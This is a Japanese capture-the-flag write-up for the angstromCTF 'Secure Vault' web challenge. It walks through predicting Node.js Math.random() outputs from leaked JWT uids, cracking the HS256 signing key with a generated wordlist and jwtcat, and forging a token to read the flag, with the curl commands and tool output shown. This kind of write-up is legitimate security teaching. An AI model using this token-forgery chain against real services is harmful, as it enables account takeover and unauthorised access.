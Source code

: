 # Secure Vault:Web:130pts
Clam saw all those cool celebrities posting everything they do on twitter, so he decided to give it a go himself. Turns out, that's a horrible idea. After recovering from his emotional trauma, he wrote a [secure vault](https://secure-vault.web.actf.co/) to store his deepest secrets. Legend has it that there's even a flag in there. Can you get it?  

[Source](index.js)  

# Solution
サイトとソースが渡される。  
アクセスするとアカウント作成後、文字列を保存できるサイトのようだ。  
Secure Vault  
[site1.png](site/site1.png)  
試しにアカウントを作ってログインすると`put something here!`とある。  
これがデフォルトのようだ。  
[site2.png](site/site2.png)  
cookieにJWT`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4MjUyNTA5MjY1MjQ3MzkiLCJpYXQiOjE2NTE0MDA1NDZ9.79aj7t462YjnsW1eQ35KsX4VS2d_bgCTDiu7Y4gH6uA`がセットされていた。  
[JSON Web Tokens - jwt.io](https://jwt.io/)で中身を見ると以下であった。  
```json
{
  "uid": "0.3825250926524739",
  "iat": 1651400546
}
```
uidが見える。  
次にソースを見ると主要部分は以下のようであった。  
```JavaScript
~~~
const userInfo = {};
const jwtKey = Math.random().toString();

class UserStore {
    constructor() {
        this.users = {};
        this.usernames = {};
    }

    insert(username, password) {
        const uid = Math.random().toString();
        this.users[uid] = {
            username,
            uid,
            password,
            vault: "put something here!",
            restricted: true,
        };
        this.usernames[username] = uid;
        return uid;
    }
~~~
}

~~~
const users = new UserStore();

app.use((req, res, next) => {
    try {
        res.locals.user = jwt.verify(req.cookies.token, jwtKey, {
            algorithms: ["HS256"],
        });
    } catch (err) {
        if (req.cookies.token) {
            res.clearCookie("token");
        }
    }
    next();
});

~~~
app.post("/register", (req, res) => {
    if (
        !req.body.username ||
        !req.body.password ||
        req.body.username.length > 32 ||
        req.body.password.length > 32
    ) {
~~~
    }
    const uid = users.insert(req.body.username, req.body.password);
    res.cookie("token", jwt.sign({ uid }, jwtKey, { algorithm: "HS256" }));
    res.redirect("/");
});

~~~
app.get("/vault", (req, res) => {
    if (!res.locals.user) {
        res.status(401).send("Log in first");
        return;
    }
    const user = users.get(res.locals.user.uid);
    res.type("text/plain").send(user.restricted ? user.vault : flag);
});
~~~
```
JWTでログインを維持しており、`user.restricted`でなければフラグが得られるようだ。  
しかし`HS256`であり、`Math.random().toString()`がkeyのようで、noneや総当たりでの攻撃は難しい。  
ここで、uidも`Math.random().toString()`であり、JWTに含まれていることを思い出す。  
つまりユーザ登録を行うと`Math.random()`の結果を知ることができる。  
`Math.random()`は安全でないことが知られており、[TACIXAT/XorShift128Plus](https://github.com/TACIXAT/XorShift128Plus)などで過去や未来の乱数を計算できる。  
uidより乱数を取得し、過去の乱数を生成することでJWTのkeyを辞書攻撃することを狙う。  
以下のget_uid.shよりuidを取得する。  
```sh
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki1ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki2ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki3ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki4ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki5ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki6ooooo&password=ooooo" 2>&1 | grep set-cookie
```
実行する。  
```bash
$ ./get_uid.sh
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4NTIyNzQxMTIwMjk0MTQ2IiwiaWF0IjoxNjUxNDAwNzE1fQ.v87ygmvry8degrkSj5KNxbK7NWDfbbSzL_N4QUw_fFs; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjYxMzkyNDY1MzU0MzcyMDgiLCJpYXQiOjE2NTE0MDA3MTZ9.wYmaATGDKeG8YSWGMwzQYSu8lVNri-deA73VO46WCgw; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI2ODA3NTE5NTY0NDEyNTg1IiwiaWF0IjoxNjUxNDAwNzE2fQ.ZrltMhyE-VO12XlQiD8X5i6DRGeyeet7t-yXRmNRCoA; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjIxMTM5NzA0NDE2NTYxNDc4IiwiaWF0IjoxNjUxNDAwNzE3fQ.3TgUijXkqscJxRS-P9VYG36OFgYkOuKumXZNXe5czI8; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjkyMzc0ODQ0NzkxNzA5NyIsImlhdCI6MTY1MTQwMDcxN30.IH0v70ujYvOxQBw0-jwdi_3HIXLmnk0nhQdOvFT3BmU; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI0OTM1MDQxNjMzMTg5NDAzIiwiaWF0IjoxNjUxNDAwNzE4fQ.2zcz1jFttIwqaoCKIjr2UeX0uHhggxCD8wE2Z4B11lY; Path=/
```
それぞれの中身を見るとuidは以下であった。  
```
0.38522741120294146
0.6139246535437208
0.26807519564412585
0.21139704416561478
0.923748447917097
0.24935041633189403
```
これらを設定し、50000個の乱数生成するよう編集したxs128p_uid.pyを実行し、辞書を作成する。  
(スクリプトの実装が不明であり、ローカルでは193行目を`if browser != 'chrome':`に変更した辞書、問題サーバでは変更していない辞書でクラックできた。)  
```bash
$ diff xs128p.py xs128p_uid.py
149,150c149,150
<         0.5368584449767335, 0.883588766746984, 0.7895949638905317,
<         0.5106241305628436, 0.49965622623126693]
---
>         0.38522741120294146, 0.6139246535437208, 0.26807519564412585,
>         0.21139704416561478, 0.923748447917097, 0.24935041633189403]
192c192
<         for idx in range(15):
---
>         for idx in range(50000):
$ python xs128p_uid.py > dict.txt
```
辞書ができたので、新たにアカウントを作成し、そのjwtを[jwtcat](https://github.com/aress31/jwtcat)でクラックする。  
以下のように行う。  
```bash
$ curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satokihack&password=ooooo" 2>&1 | grep set-cookie
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk; Path=/
$ git clone https://github.com/aress31/jwtcat.git
~~~
$ python jwtcat/jwtcat.py wordlist -w dict.txt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk"
2022-05-01 19:37:41,230 Satoki __main__[1298] WARNING For attacking complex JWT, it is best to use compiled, GPU accelerated password crackers such as Hashcat and John the Ripper which offer more advanced techniques such as raw brute forcing, rules-based, and mask attacks.
2022-05-01 19:37:41,230 Satoki __main__[1298] INFO Pour yourself a cup (or two) of ☕ as this operation might take a while depending on the size of your wordlist.
 34%|████████████████████████▌                                                | 50385/149983 [00:02<00:04, 22480.12it/s]
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Private key found: 0.5258726853042994
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Finished in 2.3682637214660645 sec
```
JWTのkeyが判明したため、[JSON Web Tokens - jwt.io](https://jwt.io/)で書き換えてやる。  
uidについてはユーザが存在しなければ`user.restricted`がfalseとなるので、適当にkeyと同じにしておく。  
![jwtio.png](images/jwtio.png)  
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjUyNTg3MjY4NTMwNDI5OTQiLCJpYXQiOjE2NTE0MDEzNzd9.AxE6xLl3WD9qbMaUvXKN6e7hDCvvlRC3Pq2wciGw910`が得られたので、設定してアクセスする。  
flag  
[flag.png](site/flag.png)  
よくわからないが、flagが得られた。  

## actf{is_this_what_uaf_is}